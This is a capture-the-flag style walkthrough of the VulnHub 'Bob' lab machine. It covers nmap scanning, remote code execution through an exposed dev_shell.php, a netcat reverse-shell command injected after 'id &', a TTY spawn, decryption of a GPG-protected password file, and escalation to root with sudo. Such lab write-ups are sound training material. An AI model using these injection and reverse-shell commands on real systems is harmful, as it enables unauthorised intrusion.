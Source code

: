 ```yaml
---
title: BOB VULNHUB
date: 2021-08-31 12:30:00 +/-TTTT
categories: [Linux, Hacking, OSCP]
tags: [linux, oscp, hacking, vulnhub]     # TAG names should always be lowercase
---
```





### **BOB Vulnhub — OSCP_DAY-1**

  

### Introduction

Bob is an easy-level boot2root machine on VulnHub. It's one of the OSCP similar machines. I will add the link for the machine here. you can download it.

[**Bob: 1.0.1**  
](https://www.vulnhub.com/entry/bob-101,226/ "https://www.vulnhub.com/entry/bob-101,226/")[](https://www.vulnhub.com/entry/bob-101,226/)

Download the machine and configure it on ORACLE VIRTUAL BOX. VM-Ware having some Network stability issues there.

Let's begin……

### Reconnaissance

First of all, let's do Nmap subnet scanning to scan my subnet and find the IP of the target machine.

> >nmap -sn 192.168.1.0/24

![](https://cdn-images-1.medium.com/max/800/1*9tan2ILmRC72O0Mwd3PyGw.png)

Nmap subnet scanning

Here we found the domain name and IP of the target server.

#### IP: 192.168.1.4

after finding the IP, let us do the port scanning to find open ports, services, operating system, etc. we can start with TCP scanning.

> >nmap -sT -sV -oS nmap/tcp.out 192.168.1.4

![](https://cdn-images-1.medium.com/max/800/1*Tw8-FbU-IPnjYYj2yUioyQ.png)

oper ports

here I got two open ports. 21- FTP and 80 HTTP. also, I will do Nmap default script scanning here on given ports.

> >nmap -sC -sV -p 21,80 -oS nmap/default.txt 192.168.1.4

![](https://cdn-images-1.medium.com/max/800/1*d9kFunzlrgpxGkuRya2ppQ.png)

default script scanning

after doing this we found some files inside the web port. here I am not going for gobuster and further tools. now let's visit the files via a web browser.

the file dev_shell.php looks suspicious. but while visiting other files I don't get any sensitive content. so let's go for dev_shell.php

![](https://cdn-images-1.medium.com/max/800/1*IWoudlcbW1pMx2m9h9seNQ.png)

192.168.1.4/dev_shell.php

this PHP page looks like a web shell. let's check for remote code execution. while putting “id” there, it gives us user-id group id and further details. so using this dev_shell, we can execute commands remotely. I will add an extra reference about arbitrary code execution below. you can refer to this for further knowledge

[**Arbitrary code execution - Google Search**  
_Please click here if you are not redirected within a few seconds. In computer security, arbitrary code execution is an…_g.co](https://g.co/kgs/A7Puqx "https://g.co/kgs/A7Puqx")[](https://g.co/kgs/A7Puqx)

![](https://cdn-images-1.medium.com/max/800/1*PJ0opJqUNrRLAHvJbnIQbw.png)

RCE

But while executing some commands they show some errors.

![](https://cdn-images-1.medium.com/max/800/1*iX6BAaI_59oHLiwcA4QadQ.png)

so let's try some bypassing methodologies.

first, we have to set up a listener on my pc to handle incoming connections. using Netcat I am going to set up the listener.

> >nc -nvlp 1234

after that, I am going to execute this code in the dev_shell of the target server to get a reverse shell.

> >id & nc 192.168.1.7 1234 -e /bin/bash

after executing this code we got the reverse shell access in the Netcat listener.

![](https://cdn-images-1.medium.com/max/800/1*eCdHd7c5MFplsoSgSR7uRg.png)

initial foothold

in this target server, python3 is installed. so using python3 we can do shell spawning. The below page refers to shell spawning. you can refer to this page for further knowledge

[**Spawning a TTY Shell**  
_Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here…_netsec.ws](https://netsec.ws/?p=337 "https://netsec.ws/?p=337")[](https://netsec.ws/?p=337)

> python3 -- version

> python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

![](https://cdn-images-1.medium.com/max/800/1*cn2lH_HTALmpXSnV8mOWAw.png)

Now it's time for privilege escalation. This machine's privilege escalation is a kind of treasure hunting, the password is stored somewhere under the server.

after visiting bob’s home folder I found a file called old_passwordfile.html which contains jc and seb user passwords. But nothing is interesting there. after few minutes of enumeration inside /home/bob/Documents/ , there are some sensitive contents and notes. also there is a file called login.txt.gpg which is protected.

![](https://cdn-images-1.medium.com/max/800/1*OPDokGl4avygu9sOna2hzA.png)

the staff.txt file contains some descriptions about other user-created by bob. now let's visit the Secret directory. inside subfolders, we found a script called notes.sh which contains the given content

![](https://cdn-images-1.medium.com/max/800/1*yDrrk5dN0rDxzpbIBPGOgg.png)

let's

take the first letter of all line as a password to open the encrypted data

#### Pass: HARPOCRATES

using the below command we can decrypt this encrypted file

> >gpg — batch — passphrase HARPOCRATES -d login.txt.gpg

![](https://cdn-images-1.medium.com/max/800/1*WXOTNILKLxTMz9_8A20uyg.png)

Now we got the bob user's password. Hopefully, Bob is the admin, so getting root access via bob’s account will be pretty easy

now switch the user to bob using the above password, and execute sudo -l to check sudo rights

> >sudo -l

and found that bob can execute everything as root. so using sudo su we will take root access

> >sudo su

![](https://cdn-images-1.medium.com/max/800/1*QrUbdx_u8y7A3U0wtFXcQw.png)

Now privilege escalation is completed. we got entire server access.
